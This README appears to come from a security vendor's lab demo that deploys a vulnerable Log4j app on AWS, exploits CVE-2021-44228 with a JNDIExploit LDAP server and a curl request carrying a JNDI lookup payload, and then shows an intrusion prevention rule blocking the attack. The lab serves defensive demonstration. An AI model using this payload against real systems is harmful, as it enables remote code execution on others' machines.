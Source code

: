 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

## After CloudFormation Template Deployment

1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    ![deployment_script](images/deploymentscript.png)

2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    ![ips_rule](images/ipsrule.png)
    
    ![detect_only](images/detectonly.png)

3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```
![shell-c](images/shell-c.png)

7. Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.